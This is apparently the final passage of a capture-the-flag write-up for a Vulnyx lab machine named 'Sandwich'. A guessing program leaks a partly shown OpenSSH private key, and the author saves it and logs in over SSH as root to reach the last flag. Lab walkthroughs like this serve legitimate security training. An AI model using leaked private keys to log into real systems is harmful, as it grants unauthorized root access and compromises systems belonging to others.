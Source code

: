 ```bash
Your guess is too high.
Try to guess:
Intento con: 13610
Good job, Solver! You guessed my number in 20 attempts!
¡Adivinado el número en 20 intentos!
Here's your reward:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAzMoVFzc2RXwrRJ6QA2Kr/trjNxtTpuvKn10uYGmFNcmPfACQfR0H
BBWQUY8LvVg+5UGGEyuC1Kvv9hevyemqVMm5+Xe9D+BCHQoqXoa7VeEd+As736w9+Ly1/D
z0ovVAA1Ae8eRJsHzXHLFcgXflpOh2mdH7hAnzr3sbDFSnUT7VOy86ODMm1PFfC6ec5BjU
z5iQjdHGOpOOTxvAsMIQeZWCgR1/hrnB1LgT82eKakFerk1V1bJTGCqDpOeaVY/oOwTXIX
    ...
    ...
    ...
I7nS3nsGgro0LxFegq4lNK/J0hOxdr0AzYCA0V1URBAc7F1yeIVsfw5agUBctTIETh4vb2
qbXz8zkaUCs3OxD+29tm759C9VV06EghvPGsNLQCNxhUJQADl+alhof4JLgaNsGSAjD0+E
BbrBjxfJ/Thc+/TRnUgi02VXBvEN3lEPPSykgnkrH05sJy3bkkypcSzrhu56I8xH2JNktD
KI7CKEYAOb49G7AAABAQDjtfviGpDjQvFu/a3ftuJTO0jOfMi0KUC4D8gtX0RuLX9kx4en
99te7snBHk667wwOWg1Obo4OKuVQPbI9GpxfP8ExnSBCj7ul6pHTGrHYoKDXFkGE38LdTx
vMEEyqhFiqNIv9iJUMfrZf4WcOWTl+rtJus3xz8yEjxJ+8CXNb3DSGD2AN2my4gmXuSJec
Q3j0qy5I0191AjSaySmfOvFTdXk/2CHq2BiPDyrvZBoJC1/Uo34IJzv7KniWETOn1pXQyW
5e4Z60iiIePJTiXy32FP1CkMfFCqrnCf6vUh7u5/cogU9EFCFxfEcAagP0OMU3pu8stWpw
r1QiwDaFhL5nAAAADXJvb3RAc2FuZHdpY2gBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

What remains I imagine you already know what it is, the key has no password and the root user can access via SSH to read the last flag.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Sandwich]
└─$ nano private_root
     
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Sandwich]
└─$ chmod 600 private_root 

┌──(kali㉿kali)-[~/CTFs/Vulnyx/Sandwich]
└─$ ssh root@192.168.1.182 -i private_root 
Linux sandwich 6.1.0-32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 30 19:49:16 2025 from 192.168.1.181
root@sandwich:~# ls
root.txt

```

That's all, I hope you enjoyed the machine and the write-up.